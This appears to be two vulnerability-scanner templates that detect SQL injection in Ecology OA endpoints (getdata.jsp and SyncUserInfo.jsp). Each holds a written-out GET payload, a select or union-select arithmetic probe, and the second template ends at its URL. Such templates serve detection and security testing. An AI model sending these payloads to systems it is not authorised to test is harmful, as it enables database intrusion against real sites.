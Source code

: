 # Ecology 8 - SQL Injection

## Description

- Ecology 8 contains a SQL injection vulnerability via a GET request. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - ecology,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select+547653\*865674+as+id

### Matchers

**Type - word**

- part - body
- words
  1. 474088963122

**Type - status**

- status
  1. 200

---

# Ecology Syncuserinfo - SQL Injection

## Description

- Ecology Syncuserinfo contains a SQL injection vulnerability via a GET request. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - ecology,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/mobile/plugin/SyncUserInfo.jsp?userIdentifiers=-1)union(select(3),null,null,null,null,null,str(98989\*44313),null
